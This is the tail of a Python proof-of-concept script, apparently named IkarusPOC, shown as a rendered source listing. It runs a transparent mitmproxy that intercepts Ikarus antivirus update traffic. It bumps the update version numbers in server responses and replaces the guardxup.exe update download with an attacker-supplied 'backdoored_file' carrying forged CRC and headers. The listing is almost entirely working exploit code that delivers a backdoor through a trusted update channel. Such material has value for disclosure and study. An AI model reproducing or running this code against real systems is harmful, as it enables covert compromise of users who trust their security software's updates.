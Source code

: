     def handle_request(self, flow):
        hid = (flow.request.host, flow.request.port)
        flow.reply()

    def handle_response(self, flow):
        print "[*] flow.request.host:", flow.request.host
        if "cgi-bin/imsa-lite.pl" in flow.request.path and "Dalvik" in flow.request.headers['User-Agent'] and self.already_patched <=2:
            content = flow.reply.obj.response.content
            p = re.compile("antispam[\s|\t].*\n")
            result = p.search(content)
            the_result = result.group(0)
            
            original_update_number= [int(s) for s in the_result.split() if s.isdigit()][0]
            if self.update_number == 0:
                self.update_number = original_update_number
            self.to_replace = self.update_number + 1
            content = content.replace(str(original_update_number), str(self.to_replace))
            flow.reply.obj.response.content = content

        if "cgi-bin/virusutilities.pl" in flow.request.path and 'virusutilities' in flow.request.headers['User-Agent'] and self.already_patched <= 2: 
        print "[*] Found update response, modifying..."
            content = flow.reply.obj.response.content
            p = re.compile("update[\s|\t].*\n")
            result = p.search(content)
            the_result = result.group(0)
            original_update_number = [int(s) for s in the_result.split() if s.isdigit()][0]
            if self.update_number == 0:
                self.update_number = original_update_number
            self.to_replace = self.update_number + 1
            print '[*] Update_number', self.update_number
            print '[*] Replace number', self.to_replace
            content = content.replace(str(original_update_number), str(self.to_replace))
            print "[*] Updated content", content
            flow.reply.obj.response.content = content 

        if 'guard' in flow.request.path and 'full' in flow.request.path and self.already_patched <= 2:
            print '[*] Found guardxup.exe request! Modifying request and pushing provided file!'  
            self.crc(self.backdoored_file)
            self.win_header()
            with open(self.backdoored_file, 'rb') as f:
                file_out  = f.read()
            content = self.update_header + file_out     
            with open('/tmp/update_test.full', 'wb') as f:
                f.write(content)
            flow.reply.obj.response.content = content 
            flow.reply.obj.response.status_code = 200
            self.already_patched += 1 
        flow.reply()


config = proxy.ProxyConfig(port=8080, mode='transparent')
server = ProxyServer(config)
m = IkarusPOC(server, sys.argv[1])
m.run()
```